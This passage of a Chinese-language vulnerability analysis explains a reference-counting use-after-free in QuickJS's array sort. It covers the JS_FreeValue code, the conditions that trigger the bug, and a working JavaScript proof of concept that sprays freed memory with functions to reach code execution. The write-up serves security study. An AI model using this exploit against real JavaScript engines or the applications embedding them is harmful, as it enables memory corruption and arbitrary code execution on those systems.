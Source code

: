 最后是JS_FreeValue。 顾名思义是一个减少引用计数，释放内存的函数。
```c=
static inline void JS_FreeValue(JSContext *ctx, JSValue v)
{
    if (JS_VALUE_HAS_REF_COUNT(v)) {
        JSRefCountHeader *p = JS_VALUE_GET_PTR(v); 
        // Quickjs使用引用计数的方式做垃圾回收
        // 当引用减少到小于等于0时，释放相应内存
        if (--p->ref_count <= 0) { 
            __JS_FreeValue(ctx, v);
        }
    }
}
```

## 0x04 原理和触发条件

Quickjs在进行sorting的时候主要有三个阶段。

- 第一阶段是生成一个新的array，将要排序的array object(a = [{hack:0},1,2,3,4])通过getproperty的方式(主要函数是JS_TryGetPropertyInt64)，把value写入array。
- 第二个阶段是对这个array进行排序（rqsort）。
- 第三个阶段是将这个array里面的值通过setproporty的方法重新写回object。而出现错误的地方就是在第三个阶段。 当排序的过后，如果array里面的元素顺序没有发生变化，相应的元素内存会被马上释放（准确来说是减少引用次数）。但是如果之后回写剩余元素的时候出现异常，会进入异常处理的部分。这里整个array里的所有元素又会被重新释放一次，而这里面就包括了之前因为顺序没有变化而已经释放的元素，导致引用计数被多减少一次。

搞清楚原理之后，我们就知道要触发这个漏洞的条件是

1. 对有对象引用的队列进行排序
2. 排序时抛出异常
3. 对队列中的对象进行引用，这样内存错误释放后，仍然可以访问相应内存

## 0x05 利用
一般对这种uaf的利用都是用函数地址去覆盖被错误释放的内存，从而实现执行任意代码。这里面涉及到了堆栈的内存分配和释放，有兴趣的可以看看[Modern Binary Exploitation CSCI 4968](http://security.cs.rpi.edu/courses/binexp-spring2015/lectures/17/10_lecture.pdf)，里面有详细的关于堆栈漏洞的利用原理的介绍。

利用代码如下

```js=
let spray = new Array(100);
let a = [{hack:0},1,2,3,4]; 
let refcopy = [a[0]]; 

a.__defineSetter__(3,()=>{throw 1;}); 
try {
	a.sort(function(v){if (v == a[0]) return 0; return 1;}); 
}
catch (e){}
a[0] = 0; 

// 用函数地址覆盖错误释放的内存
for (let i=0; i<100; i++) spray[i] = () => {console.log("hack")}; 
console.log(refcopy[0]()); // "hack"
```
